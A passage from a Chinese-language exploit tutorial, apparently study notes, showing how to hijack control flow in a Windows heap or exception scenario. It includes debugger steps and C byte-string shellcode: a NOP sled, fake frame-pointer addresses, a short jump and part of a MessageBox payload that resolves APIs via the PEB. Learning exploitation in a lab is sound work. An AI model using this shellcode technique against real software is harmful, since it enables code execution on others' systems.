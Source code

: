 综上，在后面异常被触发后，控制流转向`0x003a06b8`处执行。那么我们可以把payload紧紧跟在上面已有的shellcode的后面，得到：

```c
	// 24 nops
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	// 4 fp
	"\xeb\x06\x3a\x00"
	// 4 bp
	"\xeb\x06\x3a\x00"
	// nops
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	// fake [fp]
	"\x8c\x06\x3a\x00"
	// fake [fp + 4]
	"\xe4\xff\x12\x00"
	// 168 messagebox
	// ...
```

编译运行，然后在`0x003a06b8`处下硬件断点，接着F9。如果提示除零异常，我们按`shift + F9`继续，看看此时能不能中断在`0x003a06b8`处：

![Bildschirmfoto 2018-11-03 um 5.30.17 PM.png]({{ site.url }}/images/0day/3F48053E974075885B74B7BABD3CC6CF.png)

![Bildschirmfoto 2018-11-03 um 5.30.58 PM.png]({{ site.url }}/images/0day/F5DFBC721BF616B86993B8927FB2DD3A.png)

OK，顺利到`0x003a06b8`，说明控制流已经被我们劫持。在上图中我们可以看到之前可以布置的`0x003a06eb`恰好包含一个短跳转，跳过后面的这些垃圾指令。继续执行，我们会发现后面还存在垃圾指令，干扰了payload指令的解析：

![Bildschirmfoto 2018-11-03 um 5.32.59 PM.png]({{ site.url }}/images/0day/D182CAA3BB50E54BBCABB74F53326004.png)

我们把`0x003a06c0`处的两个nop换成一个短跳，直接跳到`0x003a06f3`处，计算发现偏移为0x31，得到shellcode如下：

```c
	// 24 nops
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	// 4 fp
	"\xeb\x06\x3a\x00"
	// 4 bp
	"\xeb\x06\x3a\x00"
	// nops
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xeb\x31"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	// fake [fp]
	"\x8c\x06\x3a\x00"
	// fake [fp + 4]
	"\xe4\xff\x12\x00"
	// 168 messagebox
	"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
	"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
	"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
	"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
	"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
	"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
	"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
	"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
```